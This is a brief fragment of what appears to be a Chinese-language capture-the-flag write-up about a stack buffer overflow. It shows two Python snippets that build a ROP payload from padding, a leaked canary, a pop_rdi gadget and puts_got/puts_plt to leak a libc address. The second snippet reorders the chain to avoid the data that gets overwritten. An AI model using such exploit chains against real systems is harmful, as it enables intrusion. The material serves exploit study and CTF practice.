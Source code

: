 ```python
buff = 'A' * 0x68 + p64(canary) + p64(rbp)+p64(pop_rdi)+p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)
```

![](./assets/1.png)

可以看到到pop_rdi之后的payload都被覆盖了，所以要将pop_rdi地址之后的payload改到最前面，由于覆盖刚好接着pop_rdi后面，所以构造payload要改变一下，如下：
```python
buff = p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)+'A' * (0x68-0x18) + p64(canary) + p64(rbp)+p64(pop_rdi)
```
调试查看内存如下：

![](./assets/2.png)
